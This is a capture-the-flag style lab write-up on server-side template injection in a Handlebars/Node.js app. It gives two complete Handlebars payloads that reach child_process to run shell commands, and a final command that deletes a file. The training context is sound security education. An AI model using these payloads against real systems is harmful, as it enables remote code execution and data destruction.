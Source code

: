 ### Server side template injection (SSTI)
#### Intro
Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.<br>
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. 
#### Lab
<i>Please note that my Lab ID will change during the explanation</i><br>
To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

So let's try to find an injection point, viewing the details of the first item we can see that the message query string parameter is reflected into the page:
-- 72 --
We can eventually try to test for XSS, but as we can see it is not vulnerable (at least not to a simple attack)
-- 74 --
anyway knowing that this is not the aim of the lab, we can move forward to test for a simple SSTI payload:
```
{{7*7}}
```
Then we get an error response that indicates that the application could be vulnerable, here we get two interesting information: A module called <b>handlebars</b> is used and the coding language seems to be <b>Node.js</b>. 
-- 73 --
Since I have a very little knowledge about Node.js and nothing about Handlebars I have no idea how to proceed further 🤨. Googling for 'ssti handlebars node.js' returned some interesting results, among all I found this one: http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html<br>
Telling the truth I had problem to clearly understand what <b>Mahmoud Gamal</b> actually did 😬, so I had to study quite a bit the handlebars library and Node.js.
So I ended up to code the following payload:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('pwd');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
Here the real exploit is the instruction:<br><b>return require('child_process').exec('id');</b><br>
That is the way to execute shell command in Node.js: https://nodejs.org/api/child_process.html<br>
The problem with this payload is that we don't get the command ouptut into the web page, since the exec method is asynchronous and we need and handler to return the command output:
-- 75 --
I struggled quite a lot to find a way to print the output command into the response, finally I discovered that I can use the <b>execSync</b> method to execute the command synchronous, so I modified the payload as follows:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
This time we get the output printed into the response 😃
-- 76 --
To delete the morale.txt file just change the command string as follows:<br>
<b>return require('child_process').execSync('rm morale.txt').toString();<b><br>
we can double check that the file has been deleted resending the previous payload to list the files.


#### Reference
+ https://portswigger.net/web-security/server-side-template-injection
+ https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
+ http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
